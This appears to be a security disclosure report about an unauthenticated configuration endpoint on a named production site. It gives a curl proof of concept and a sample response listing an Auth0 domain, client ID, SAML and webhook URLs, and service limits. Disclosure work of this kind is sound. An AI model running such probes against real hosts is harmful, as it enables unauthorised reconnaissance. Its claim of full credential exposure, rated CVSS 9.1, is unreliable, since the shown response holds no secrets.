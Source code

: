 # 🚨 CRITICAL: Sensitive Configuration Data Exposure

## **📊 SUMMARY**
- **Severity**: Critical (CVSS 9.1)
- **Asset**: workflow.aixblock.io/api/v1/flags (Critical)
- **Vulnerability**: Complete system configuration and credentials exposure
- **Impact**: Authentication bypass, system compromise, data breach

## **🔍 TECHNICAL DETAILS**

### **Affected Components**
- **Primary**: `https://workflow.aixblock.io/api/v1/flags` - Configuration endpoint
- **Impact**: Complete system exposure including authentication credentials

### **Root Cause**
The `/api/v1/flags` endpoint exposes sensitive configuration data without authentication, revealing critical system information including Auth0 credentials, SAML configuration, and internal infrastructure details.

### **Attack Vector**
Any unauthenticated user can access the endpoint to retrieve complete system configuration, including authentication credentials and internal system details.

## **💥 PROOF OF CONCEPT**

### **1. Basic Configuration Access**
```bash
curl -s "https://workflow.aixblock.io/api/v1/flags"
```

### **2. Expected Response**
```json
{
  "AUTH0_DOMAIN": "dev-ilxhqh05t3onfvz7.us.auth0.com",
  "AUTH0_APP_CLIENT_ID": "mnOTnb7yaS4A6BQw65zQ7szH3ct6qZiw",
  "SAML_AUTH_ACS_URL": "https://workflow.aixblock.io/api/v1/authn/saml/acs",
  "WEBHOOK_URL_PREFIX": "https://workflow.aixblock.io/api/v1/webhooks",
  "ENVIRONMENT": "prod",
  "CURRENT_VERSION": "0.50.10",
  "FLOW_RUN_TIME_SECONDS": 1600,
  "FLOW_RUN_MEMORY_LIMIT_KB": 1048576,
  "MAX_FILE_SIZE_MB": 4,
  "MAX_RECORDS_PER_TABLE": 1500,
  "MAX_TABLES_PER_PROJECT": 20,
  "MAX_FIELDS_PER_TABLE": 15,
  "PRIVATE_PIECES_ENABLED": true,
  "CLOUD_AUTH_ENABLED": true,
  "PROJECT_LIMITS_ENABLED": true,
  "EDITION": "ee"
}
```
